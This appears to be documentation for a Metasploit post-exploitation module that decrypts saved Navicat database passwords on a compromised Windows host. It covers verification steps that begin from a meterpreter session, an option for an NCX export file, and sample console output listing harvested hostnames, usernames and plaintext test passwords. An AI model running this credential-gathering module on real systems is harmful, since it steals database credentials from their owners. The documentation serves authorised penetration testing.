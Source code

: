 ## Vulnerable Application

This module can decrypt the password of navicat, If the user chooses to remember the password.

  Analysis of encryption algorithm [here](https://github.com/HyperSine/how-does-navicat-encrypt-password).

  You can find its official website [here](https://navicat.com/).

## Verification Steps

  1. Download the latest installer of Navicat.
  2. Use navicat to log in to DB server.
  3. Remember to save the account password.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: `run post/windows/gather/credentials/navicat`
  6. If the session file is saved in the system, the host, port, user name and plaintext password will be printed.

## Options

### NCX_PATH

Specify the path of the NCX export file. e.g.: connections.ncx

## Scenarios

```
meterpreter > run post/windows/gather/credentials/navicat 

*] Gathering Navicat password information from WIN-79MR8QJM50N 
Navicat Sessions 
================

Name            Protocol  Hostname   Port   Username  Password
----            --------  --------   ----   --------  --------
mongodb         mongodb   localhost  27017  user      password  
test_mysql      mysql     localhost  3306   root      test_mysql_password 
test_oracle     oracle    127.0.0.1  1521   user      password
test_pg         postgres  localhost  5432   postgres  test_pg_password
test_sqlserver  mssql     127.0.0.1  1433   user      password

[+] Session info stored in: /home/kali-team/.msf4/loot/20221002233644_default_192.168.80.128_host.navicat_ses_919319.txt
[*] Post module execution completed
meterpreter > 
```

* Specify **NCX_PATH**

```
msf6 post(windows/gather/credentials/navicat) > set ncx_path C:\\Users\\FireEye\\Desktop\\connections.ncx
ncx_path => C:\Users\FireEye\Desktop\connections.ncx
msf6 post(windows/gather/credentials/navicat) > run

[*] Gathering Navicat password information from WIN-79MR8QJM50N
[*] Looking for C:\Users\FireEye\Desktop\connections.ncx
[+] navicat.ncx saved to /home/kali-team/.msf4/loot/20221002234356_default_192.168.80.128_navicat.creds_838577.txt
Navicat Sessions
================

Name            Protocol  Hostname   Port   Username  Password
----            --------  --------   ----   --------  --------
mongodb         mongodb   localhost  27017  user      password  
test_mysql      mysql     localhost  3306   root      test_mysql_password 
test_oracle     oracle    127.0.0.1  1521   user      password
test_pg         postgres  localhost  5432   postgres  test_pg_password
test_sqlserver  mssql     127.0.0.1  1433   user      password

[+] Session info stored in: /home/kali-team/.msf4/loot/20221002234356_default_192.168.80.128_host.navicat_ses_522370.txt
[*] Finished processing C:\Users\FireEye\Desktop\connections.ncx
[*] Post module execution completed


```